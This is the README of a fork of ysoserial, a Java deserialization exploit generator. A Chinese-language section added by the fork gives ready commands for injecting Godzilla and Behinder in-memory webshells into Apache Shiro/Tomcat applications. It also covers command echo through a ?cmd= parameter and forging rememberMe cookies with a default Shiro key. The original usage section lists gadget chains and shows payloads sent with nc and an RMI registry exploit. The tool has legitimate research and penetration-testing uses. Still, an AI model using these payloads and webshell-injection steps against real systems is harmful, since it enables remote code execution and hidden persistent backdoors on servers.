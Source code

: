 
# ysoserial


[![Join the chat at https://gitter.im/frohoff/ysoserial](
    https://badges.gitter.im/frohoff/ysoserial.svg)](
    https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Travis Build Status](https://api.travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

打包命令

` mvn clean package -DskipTests`

### shiro 内存马注入
生成哥斯拉反序列化Loader数据，配合poc中 GodzillaPostData.txt 中的 post 内容即可完成哥斯拉内存马注入

`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1_183 classfile:./poc/shell/GodzillaLoader.class > godzilla.ser`


使用对应链进行生成反序列化文件 (这个BehinderLoader 只是一个 loader，需要配合特定的 Post 数据才能完成注入，Post 注入的数据暂时不打算公开）

`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1_183 classfile:./poc/shell/BehinderLoader.class > behinder.ser`

使用 TomcatEcho 可以进行输出回显，在url中添加 `?cmd=命令` 即可获得回显

`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1_183 classfile:./poc/shiro/TomcatEcho.class > echo.ser`


指定加密模式和反序列化文件生成对应的 rememberMe

`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ShiroRememberMeEncode cbc:kPH+bIxk5D2deZiIxcaaaA==:./demo.ser`


### 更新日志
2021.0617 从 Shiro attack 中分离出了 GodzillaLoader 以及 Post 内容，并稍做了些修改

2021.0527 利用 classloader 实现了依赖隔离，支持 cb 1.9.2 和 cb 1.8.3 (基于 c0ny1 师傅的思路)

2021.0525 可以引入构造好的 class 直接进行 shiro Tomcat 内存马注入，同时可直接调用加密函数进行加密



Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial.jar [payload] '[command]'
  Available payload types:
     Payload             Authors                     Dependencies
     -------             -------                     ------------
     AspectJWeaver       @Jang                       aspectjweaver:1.9.2, commons-collections:3.2.2
     BeanShell1          @pwntester, @cschneider4711 bsh:2.0b5
     C3P0                @mbechler                   c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Click1              @artsploit                  click-nodeps:2.3.0, javax.servlet-api:3.1.0
     Clojure             @JackOfMostTrades           clojure:1.8.0
     CommonsBeanutils1   @frohoff                    commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1 @frohoff                    commons-collections:3.1
     CommonsCollections2 @frohoff                    commons-collections4:4.0
     CommonsCollections3 @frohoff                    commons-collections:3.1
     CommonsCollections4 @frohoff                    commons-collections4:4.0
     CommonsCollections5 @matthias_kaiser, @jasinner commons-collections:3.1
     CommonsCollections6 @matthias_kaiser            commons-collections:3.1
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     FileUpload1         @mbechler                   commons-fileupload:1.3.1, commons-io:2.4
     Groovy1             @frohoff                    groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser            javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                   json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser            javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711 jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser            js:1.7R2
     MozillaRhino2       @_tint0                     js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                   rome:1.0
     Spring1             @frohoff                    spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                   spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Vaadin1             @kai_ullrich                vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1             @jacob-baines               wicket-util:6.23.0, slf4j-api:1.6.4
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from
[JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

Note that GitHub-hosted releases were removed in compliance with the
[GitHub Community Guidelines](
    https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
